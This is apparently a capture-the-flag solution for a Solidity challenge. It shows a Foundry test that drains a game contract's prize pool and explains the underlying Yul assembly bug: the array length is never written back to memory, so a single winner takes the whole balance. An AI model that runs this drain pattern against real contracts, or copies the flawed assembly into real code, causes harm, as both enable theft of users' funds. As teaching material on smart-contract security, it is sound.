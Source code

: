 # IKnowYulNeverHackThis Solution
Hopefully you picked the winning team in one try. The correct way to steal all of the funds was to join the read team. Here is the solution:
```
function test_GetThisPassing_3() public {
    address hacker = address(0xBAD);
    vm.deal(hacker, 1 ether);


    vm.startPrank(hacker);
    target.joinRedTeam{value: 1 ether}();
    target.defineWinners(false);
    vm.stopPrank();

    assertEq(hacker.balance, 10 ether);
}
```
To win you simply need to:
1. Join the Red Team.

2. Call `defineWinners()` with the parameter set to false.

Winning this challenge is fairly easy. However, understanding how you won is far more important. To get a grasp on how joining the red team allows you to win this challenge, lets start by viewing what happens when you join the blue team.

Here is the code from that section with comments explaining each lines utility:
```
// creates an empty address array in memory with a size of one
address[] memory winners = new address[](1);

if (_isBlueTeam) {
    for(uint256 j; j < blueTeam.length; ++j) {
        address winner = blueTeam[j];
        assembly {

            // gets the location of the array in memory
            let location := winners

            // loads the size of the array from memory
            let length := mload(winners)

            // gets the next memory location after the array
            let nextMemoryLocation := add( location, mul( length, 0x20 ) )

            // loads the free memory pointer
            let freeMem := mload(0x40)

            // gets the memory location of the the word after the free memory pointer
            let newMsize := add( freeMem, 0x20 )

            /** 
            if the free memory pointer is not equal to the next available memory location after the array, we need to move each memory variable one word further. This will prevent us from overwriting an existing variable if they exist. (In this scenario they do not exist, but I needed to add more code to throw you off :)
            */
            if iszero( eq( freeMem, nextMemoryLocation) ){
                let currVal
                let prevVal
            
                // loop through the variables that need to be rewritten
                for { let i := nextMemoryLocation } lt(i, newMsize) { i := add(i, 0x20) } {
                    // get the current variables value from memory
                    currVal := mload(i)
                    // store the previous variable in this location
                    mstore(i, prevVal)
                    // save the current value to the stack
                    prevVal := currVal
                
                }
            }

            // store the current winner in the next memory location
            mstore(nextMemoryLocation, winner)

            // increment the length of the array
            length := add( length, 1 )

            // store the updated length to memory
            mstore( location, length )

            // update the free memory pointer
            mstore(0x40, newMsize )
        }
    }
```

We now know the proper way to update the winnings array. Although, admittedly, there are far more efficient ways to do so for this particular function.

The issue with the version in the else statement (the flow if the red team is the winning team) stems from missing the following line of code:
```
mstore( location, length )
```
Although we do update the `length` variable, we only update it on the stack, and forget to store it in memory. All of the addresses were written to memory, but because the length never gets updated it keeps being rewritten by the next address. We were the last address in the red team array so our address is written to the winnings array at the end of the for loop.

Since the assembly block forgets to update the length of the array, the size is still one. This causes the calculation for the share of winnings to assign the entire balance to `shareOfPrize`. This sends the entirety of the winnings to our address.



Bonus Points if you noticed that the game cannot function properly after the first time.
